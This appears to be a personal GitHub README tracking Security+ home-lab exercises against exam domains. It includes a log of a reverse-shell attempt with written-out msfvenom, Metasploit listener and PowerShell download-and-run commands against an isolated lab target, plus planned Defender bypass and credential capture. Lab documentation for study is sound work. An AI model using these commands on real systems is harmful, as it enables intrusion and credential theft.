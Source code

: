 # 📊 CompTIA Security+ Lab Tracker (SY0-701)

This tracker maps hands-on labs in my home cybersecurity lab to the CompTIA Security+ objectives. Each section links to lab documentation and tools used.

---

## Domain 1: Attacks, Threats, and Vulnerabilities

| Lab | Status | Link |
|-----|--------|------|
| Network Reconnaissance | ✅ Complete | [nmap-scan.md](./recon_logs/nmap-scan.md)
| Exploiting CVE via Metasploit | ✅ Complete | [metasploit-cve.md](./exploitation/metasploit-cve.md)
# SECURITY+ LAB TRACKER

## Phase 1 – Exploitation

### April 21–22, 2025 — Reverse Shell Attempt via PowerShell + Evil-WinRM

**Objective:** Gain reverse shell access to the Windows Server 2025 target (192.168.1.2) from Kali Linux attacker (192.168.1.3).

**Summary:**

- Used `msfvenom` to generate a reverse shell payload:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
  ```
- Hosted payload with Python HTTP server:
  ```bash
  sudo python3 -m http.server 80
  ```
- Set up Metasploit listener:
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/x64/shell_reverse_tcp
  set LHOST 192.168.1.3
  set LPORT 4444
  run
  ```
- Transferred and attempted to execute payload on Windows Server via PowerShell:
  ```powershell
  Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
  Start-Process C:\Users\Public\revshell.exe
  ```
- **Blocked by Defender**: Execution blocked due to Defender identifying `revshell.exe` as a threat.

**Outcome:** Reverse shell payload delivery succeeded; execution was blocked by Windows Defender. Target is aware of potential threats but lacks enhanced hardening.

**Next Steps:**

- Bypass Defender via encoding/obfuscation
- Explore WMI or scheduled task payload execution
- Capture more credentials using CrackMapExec or responder-based attacks

**📄 Report:** https://github.com/olehstudycyber/Oleh-Borysovskyy/blob/main/exploitation/revshell_deployment_blocked.md


---

## Domain 2: Architecture and Design

| Lab | Status | Link |
|-----|--------|------|
| Risk Assessment & Documentation | ✅ Complete | [risk-assessment.md](./reports/risk-assessment.md)

---

## Domain 3: Implementation

| Lab | Status | Link |
|-----|--------|------|
| Active Directory Setup | ✅ Complete | [PHYSICAL_LAB.md](./PHYSICAL_LAB.md)
| Group Policy Object (GPO) Configuration | ✅ Complete | Coming soon

---

## Domain 4: Operations and Incident Response

| Lab | Status | Link |
|-----|--------|------|
| Sysmon & Windows Defender Detection | ✅ Complete | [sysmon-analysis.md](./post_exploitation/sysmon-analysis.md)
| SIEM Setup (Wazuh) | 🚧 In Progress | Coming soon

---

## Domain 5: Governance, Risk, and Compliance

| Lab | Status | Link |
|-----|--------|------|
| Windows Server Hardening | ✅ Complete | [BUILD_SERVER.md](./BUILD_SERVER.md)

---

## ✅ To-Do List

- [ ] Set up Wazuh SIEM on separate Linux machine
- [ ] Simulate brute-force and phishing attacks
- [ ] Analyze traffic using Wireshark
- [ ] Upload screenshots and logs from labs

---

> ⚠️ All labs are performed in a secure, isolated lab environment for learning and demonstration purposes only.

Happy hacking! 💻🔐

---

> Created for personal Security+ lab prep by [Your Name] – GitHub: [yourusername]

